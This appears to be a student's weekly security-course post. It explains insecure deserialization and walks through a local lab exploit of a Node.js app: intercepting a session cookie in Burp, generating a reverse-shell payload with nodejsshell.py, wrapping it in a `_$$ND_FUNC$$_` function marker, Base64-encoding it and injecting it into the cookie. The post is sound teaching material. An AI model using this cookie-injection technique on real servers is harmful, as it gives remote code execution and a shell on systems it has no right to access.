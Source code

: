 ```yaml
---
layout: post
title: Week 8
---
```


# Insecure Deserialization
Serialization is the process where an object is encoded into a byte-stream which can be transferred across a network. It is then de-serialized to recover the object. Depending on the application, serialized objects may include executable instructions or authentication credentials. These serialized objects may be modified by an adversary. If the application is not able to detect tampering, it can allow the adversary to achieve effects like remote code execution or privilege escalation on the server.

### Exercise 
**Note:** Since this excercise gains access into the server we are unable to exploit the live vulnerable web app hosted in Heroku as they have added security on their back to prevent this kinds of attacks.    

1. Setup: 
- Clone or download https://github.com/ajinabraham/Node.Js-Security-Course.git
- On a seperate folder clone or download https://github.com/ashwinsawant/sbr.git and checkout branch Deserial. Run command 'npm start' to run web app locally on port 3000. 

     ![Local Host](/images/week8_npmStart.JPG)

2. Open Burp, go to Proxy > Options and make sure 127.0.0.1:8080 Proxy Listener is enabled. Then go to Firefox and change manual proxy settings to match Burp's.

     ![Burp Proxy](/images/week8_Proxy.JPG)

3. On Burp go to Proxy > Intercept and make sure Intercept is on. On Firefox go to localhost:3000/login and enter the following credentials at the login page: **Email:** cocho@gmail.com and **Password:** password      
Read carefully after GET you will see an api/login click Forward and then you will see a GET /setCookies, this is the request we are interested in.  We have just intercepted traffic and now have access to the encryted cookie along with the request format. Click on Action button and Send to Repeater. We will use later on in the process.   

   ![Burp Intercept](/images/week8_Cookie.JPG)

4. Go to the Node.Js-Security-Course folder and opent terminal and run the following command: `python nodejsshell.py 127.0.0.1 3333`
Copy text everything after eval(  and paste it in Burp's Decoder tab. 

   ![Python Scrypt](/images/week8_python.JPG)
   
5. Copy paste or typethe following on the Decoder tab before eval `{"rce":"_$$ND_FUNC$$_function (){ ` and copy paste or type `}()"}` at the end after 10)) Click on Encode as and select Base 64 to get a long string of characters. 

    ![Decoder](/images/week8_base64.JPG)

6. Copy the encoded string and got to the Repeater tab, replace the red text after profile= with the string and click Send. 
### References
- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
- https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/
- https://expressjs.com/en/resources/middleware/cookie-parser.html

# Insufficient Logging & Monitoring
